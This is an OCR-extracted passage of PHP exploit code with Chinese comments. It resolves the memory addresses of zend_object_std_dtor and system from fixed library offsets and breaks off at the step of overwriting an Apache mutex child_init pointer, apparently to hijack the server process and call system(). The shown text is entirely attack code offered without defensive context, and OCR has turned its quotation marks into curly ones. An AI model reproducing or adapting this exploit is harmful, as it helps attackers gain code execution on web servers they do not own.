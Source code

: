 ```

$libphp_region = get_mem_region(“libphp”);

if(!count($libphp_region)){

die(“can’t find zend_object_std_dtor function addr\n”);

}

for($i = 0;$i<count($libphp_region);$i++){

if($libphp_region[$i][2] === “r-xp”){

$zend_object_std_dtor_addr = $libphp_region[$i][0]+0x4F8300;//zend_object_std_dtor 在libphp7.so代码段中的偏移

break;

}

}

if($zend_object_std_dtor_addr === 0){

die(“can’t find zend_object_std_dtor function addr\n”);

}

echo “zend_object_std_dtor function addr:0x”.dechex($zend_object_std_dtor_addr)."\n";

//查找system函数的地址(在libpthread中)

$system_addr = 0;

$pthread_region = get_mem_region(“pthread”);

if(!count($pthread_region)){

die(“can’t find system function addr\n”);

}

for($i = 0;$i<count($pthread_region);$i++){

if($pthread_region[$i][2] === “r-xp”){

$system_addr = $pthread_region[$i][0]+0xF4C0;//system 在libpthread-2.17.so代码段中的偏移

break;

}

}

if($system_addr === 0){

die(“can’t find system function addr\n”);

}

echo “system function addr:0x”.dechex($system_addr)."\n";

//将apr_proc_mutex_unix_lock_methods_t中的child_init改为zend_object_std_dtor
```